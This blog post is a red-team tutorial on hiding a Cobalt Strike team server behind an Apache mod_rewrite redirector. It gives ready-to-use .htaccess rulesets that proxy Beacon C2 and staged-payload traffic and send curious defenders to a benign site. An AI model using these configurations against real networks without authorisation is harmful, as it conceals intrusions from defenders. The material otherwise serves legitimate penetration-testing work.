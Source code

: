 ```yaml
---
layout: post
title: Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite
summary: How to set up a Command and Control redirector to only allow Cobalt Strike's C2 through. Uses Apache's rewrite module to handle the filtering.
tags: 
- mod_rewrite
- cobalt strike
- red team infrastructure
image: /assets/apache/cobalt-strike-http-c2-demo.gif
commentIssueId: 13
---
```


Imagine you are performing a Red Team engagement. So far it's been very hard, fighting tooth and nail to get each step closer to totally owning their network. You finally get internal network access and things are stable. Everything looks good on your end, but on the Blue side of things IT is taking notice of traffic flowing to an unknown domain. A curious IT worker opens their browser and navigates to the site. 404 error. Suspicion++. Five minutes later your Beacons become unresponsive. You're blocked. Now you have to spin up some new infrastructure and get in again.

I am willing to bet we've all been in a similar situation at least once. One way we can reduce the risk of being caught is by using a redirector host to allow only command and control (C2) traffic reach our Cobalt Strike server and redirect all other traffic to an innocuous website, such as the target's site. A simple way to do this is using an Apache redirector as an intermediary server. Our C2 domain will point at the Apache redirector, which will perform the traffic filtering. An added benefit of using a separate host in this setup is if our domain is burned, our real Cobalt Strike team server's IP will still be useable. We can roll the redirector, get a new IP and domain, and be back in business. If we set up multiple callback domains in our Beacon payload, we won't even need to regain initial access.


# Infrastructure

You will need a fresh host to use as the Apache redirector. The host should be relatively easy to reconfigure with a new public IP. While a colo host will work, using a VPS is often an easier option. Keep in mind that all traffic used by Beacon will be received and sent back out (to your Cobalt Strike teamserver) by the host, so spec out the bandwidth and resources accordingly. Of course, the obligatory warning stands: make sure you understand your provider's Terms of Service and any applicable laws before using this for an engagement. 

Here is what our infrastructure will look like:
![Cobalt Strike HTTP C2 Redirector Infrastructure](/assets/apache/cobalt-strike-http-c2.png)


# Cobalt Strike

As you may expect, Cobalt Strike's Beacons use GET and POST requests for HTTP communications. Requests are made to URIs configured within the team server's Malleable C2 profile. Within the profile we can configure the request URIs, headers, parameters, and a number of other C2 options. I *highly* recommend reading the [documentation](https://www.cobaltstrike.com/help-malleable-c2) on Malleable C2 before using it; it's powerful! [@harmj0y's](https://twitter.com/harmj0y) post [A Brave New World: Malleable C2](http://www.harmj0y.net/blog/redteaming/a-brave-new-world-malleable-c2/) provides additional great insight.

For demonstration, we will use @harmj0y's Zeus Malleable C2 profile available [here](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/zeus.profile). The profile configures Beacons to use the following C2 settings:

* user-agent: *Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2)*
* HTTP GET URI: */metro91/admin/1/ppptp.jpg* 
* HTTP POST URI: */metro91/admin/1/secure.php*

To start Cobalt Strike with a Malleable C2 profile, use the following syntax:

```bash
./teamserver <Public IP> <password> </path/to/profile>
```

Make sure to configure your Cobalt Strike listeners and payloads to call out to your redirection domain(s), *spoofdomain.com* in our example. During a Red Team engagement, you will likely configure multiple callback domains

# Apache 

To set up Apache to use mod_rewrite, follow the first-time setup steps outlined in my [previous mod_rewrite post](https://bluescreenofjeff.com/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). 


The way we configure our htaccess rules will depend on whether we need to support staged Beacons, such as [Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery), or not. 

## HTTP C2 Redirection Ruleset

To only perform HTTP C2 redirection, place the following ruleset in a *.htaccess* file within the Apache web root:

```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

Replace *TEAMSERVER-IP* with the WAN IP of your Cobalt Strike team server. After saving the file, Apache will send requests for an approved URI with the user-agent configured in the Malleable C2 profile to our Cobalt Strike team server and redirect all other requests to *http://example.com/*. The question mark towards in line 7 ends the rewrite and redirects the user to exactly *http://example.com/*. If you want to retain the original request URI, delete the question mark.

Notice that the two expected HTTP URIs on line 4 are split by a pipe, enclosed in parentheses, and omit the leading forward slash. You can add other URIs the same way; this line is evaluated as a regular expression. Also note that the HTTP User Agent regex on line 3 requires all spaces, periods, and parentheses be escaped.

 
If you configure your Cobalt Strike listener to use a port other than port 80, you will need to configure Apache to [listen on that port](http://httpd.apache.org/docs/current/bind.html). By default on Debian, you can edit the port(s) Apache listens on in `/etc/apache2/ports.conf` and `/etc/apache2/sites-enabled/000-default.conf`. 


## HTTP C2 Redirection with Payload Staging Support
```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/updates/?$
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

New rules are added to lines 2 - 7. 

On line 2 the */updates/* URI is the URI configured in our Scripted Web Delivery. When the target host executes the web delivery command, it will first make a GET request to the configured URI with a blank HTTP User Agent. Lines 2 - 4 allow the request to be proxied to our teamserver. The next request the target host makes is GET to a random four character URI with the HTTP User Agent configured in the Malleable C2 profile. 

Lines 5 - 7 allow this second request through. It is possible that this pattern will change, so be sure to test your rulesets and makes changes accordingly to allow the full staging process to occur.


Here's a demo showing the C2 URL be visited by an end-user, running the Scripted Web Delivery command pulling from the same URL, and establishing a Beacon session through the redirector:
![Cobalt Strike HTTP C2 Redirector Demo](/assets/apache/cobalt-strike-http-c2-demo.gif)

# Summary

In a Red Team engagement, keeping core infrastructure hidden from defenders and flexible to change is crucial. Using Apache's mod_rewrite module we can obscure our command and control (C2) servers behind a VPS that is easily replaced. This way if a defender blocks our C2 domain and its IP, our fallback domains can be pointed to another VPS that proxies requests to the same teamserver used previously.



